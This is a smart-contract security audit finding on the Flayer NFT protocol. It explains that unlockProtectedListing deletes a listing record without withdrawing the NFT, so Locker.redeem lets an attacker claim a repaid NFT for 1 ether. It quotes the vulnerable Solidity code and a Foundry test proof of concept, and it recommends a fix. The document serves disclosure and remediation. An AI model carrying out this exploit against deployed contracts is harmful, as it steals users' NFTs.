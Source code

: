 # Attacker can take out user's repaid protected listing NFT with only `1 ether`.
## Summary
`ProtectedListings.unlockProtectedListing()` function deletes `_protectedListings[_collection][_tokenId]` while not withdraw it from `Locker` when `_withdraw` parameter is `false`. Therefore, attacker can take out user's repaid protected listing NFT with only `1 ether` before user withdraw it.

## Vulnerability Detail
`ProtectedListings.unlockProtectedListing()` function is following.
```solidity
    function unlockProtectedListing(address _collection, uint _tokenId, bool _withdraw) public lockerNotPaused {
        // Ensure this is a protected listing
        ProtectedListing memory listing = _protectedListings[_collection][_tokenId];

        // Ensure the caller owns the listing
        if (listing.owner != msg.sender) revert CallerIsNotOwner(listing.owner);

        // Ensure that the protected listing has run out of collateral
        int collateral = getProtectedListingHealth(_collection, _tokenId);
        if (collateral < 0) revert InsufficientCollateral();

        // cache
        ICollectionToken collectionToken = locker.collectionToken(_collection);
        uint denomination = collectionToken.denomination();
        uint96 tokenTaken = _protectedListings[_collection][_tokenId].tokenTaken;

        // Repay the loaned amount, plus a fee from lock duration
        uint fee = unlockPrice(_collection, _tokenId) * 10 ** denomination;
        collectionToken.burnFrom(msg.sender, fee);

        // We need to burn the amount that was paid into the Listings contract
        collectionToken.burn((1 ether - tokenTaken) * 10 ** denomination);

        // Remove our listing type
        unchecked { --listingCount[_collection]; }

        // Delete the listing objects
314:    delete _protectedListings[_collection][_tokenId];

        // Transfer the listing ERC721 back to the user
        if (_withdraw) {
            locker.withdrawToken(_collection, _tokenId, msg.sender);
            emit ListingAssetWithdraw(_collection, _tokenId);
        } else {
            canWithdrawAsset[_collection][_tokenId] = msg.sender;
        }

        // Update our checkpoint to reflect that listings have been removed
        _createCheckpoint(_collection);

        // Emit an event
        emit ListingUnlocked(_collection, _tokenId, fee);
    }
```
The above function doesn't withdraw NFT when `_withdraw` parameter is `false`, but deletes `_protectedListings[_collection][_tokenId]` in `L314`.
In the meantime, `Locker.redeem()` function is following.
```solidity
    function redeem(address _collection, uint[] calldata _tokenIds, address _recipient) public nonReentrant whenNotPaused collectionExists(_collection) {
        uint tokenIdsLength = _tokenIds.length;
        if (tokenIdsLength == 0) revert NoTokenIds();

        // Burn the ERC20 tokens from the caller
        ICollectionToken collectionToken_ = _collectionToken[_collection];
        collectionToken_.burnFrom(msg.sender, tokenIdsLength * 1 ether * 10 ** collectionToken_.denomination());

        // Define our collection token outside the loop
        IERC721 collection = IERC721(_collection);

        // Loop through the tokenIds and redeem them
        for (uint i; i < tokenIdsLength; ++i) {
            // Ensure that the token requested is not a listing
223:        if (isListing(_collection, _tokenIds[i])) revert TokenIsListing(_tokenIds[i]);

            // Transfer the collection token to the caller
            collection.transferFrom(address(this), _recipient, _tokenIds[i]);
        }

        emit TokenRedeem(_collection, _tokenIds, msg.sender, _recipient);
    }
``` 
`Locker.isListing()` function of `L223` is following.
```solidity
    function isListing(address _collection, uint _tokenId) public view returns (bool) {
        IListings _listings = listings;

        // Check if we have a liquid or dutch listing
        if (_listings.listings(_collection, _tokenId).owner != address(0)) {
            return true;
        }

        // Check if we have a protected listing
447:    if (_listings.protectedListings().listings(_collection, _tokenId).owner != address(0)) {
            return true;
        }

        return false;
    }
```
Since `_protectedListings[_collection][_tokenId]` is already deleted in `ProtectedListings.sol#L314`, the condition of `L447` is `false` and `isListing()` function returns `false`. Therefore, attacker can take out user's repaid protected listing NFT by calling `Locker.redeem()` function.

PoC:
Add the following test code into `ProtectedListings.t.sol`.
```solidity
    function test_withdrawProtectedListingError() public {
        erc721a.mint(address(this), 0);
        
        erc721a.setApprovalForAll(address(protectedListings), true);

        uint[] memory _tokenIds = new uint[](2); _tokenIds[0] = 0; _tokenIds[1] = 1;

        // create protected listing for tokenId = 0
        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(0),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.4 ether,
                checkpoint: 0
            })
        });
        protectedListings.createListings(_listings);

        vm.warp(block.timestamp + 7 days);

        // attacker can't take out protected listing
        locker.collectionToken(address(erc721a)).approve(address(locker), 1 ether);
        vm.expectRevert();
        locker.redeem(address(erc721a), _tokenIdToArray(0), address(this));

        // user unlock protected listing without withdrawing
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), 402055890410801920);
        protectedListings.unlockProtectedListing(address(erc721a), 0, false);

        // attacker can take out protected listing with only 1 ether
        locker.redeem(address(erc721a), _tokenIdToArray(0), address(this));

        // user lost his NFT
        vm.expectRevert();
        protectedListings.withdrawProtectedListing(address(erc721a), 0);
    }
```
As can be seen above, attacker can take out user's repaid protected listing NFT with only `1 ether` before user withdraw it.

## Impact
In general, the price of protected listing NFT will be more than `1 ether`. However, attacker can take out user's repaid protected listing NFT with only `1 ether`. This means loss of funds for user.

## Code Snippet
- [ProtectedListings.unlockProtectedListing()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L287-L329)

## Tool used
Manual Review

## Recommendation
Don't delete `_protectedListings[_collection][_tokenId]` when `_withdraw` parameter is `false`. And then delete it in the `ProtectedListings.withdrawProtectedListing()` function.